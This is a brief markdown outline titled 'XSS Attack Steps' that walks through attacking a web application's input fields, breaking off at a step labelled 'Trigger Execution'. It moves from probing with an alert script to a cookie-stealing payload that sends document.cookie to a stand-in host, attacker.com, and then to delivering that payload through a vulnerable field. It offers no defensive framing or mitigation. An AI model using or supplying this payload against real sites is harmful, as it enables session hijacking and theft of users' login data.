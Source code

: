 # XSS Attack Steps

1. **Identify Input Fields**
    - Locate user input fields (e.g., search boxes, comment forms) in the target application.

2. **Test for Input Validation**
    - Enter harmless scripts like `<script>alert('XSS')</script>` to check if input is sanitized.

3. **Analyze Output**
    - Observe if the script executes or if the input is reflected back unsanitized.

4. **Craft Malicious Payload**
    - Create a payload to steal cookies or session data, e.g., `<script>document.location='http://attacker.com/?c='+document.cookie</script>`.

5. **Deliver Payload**
    - Submit the payload through the vulnerable input field.

6. **Trigger Execution**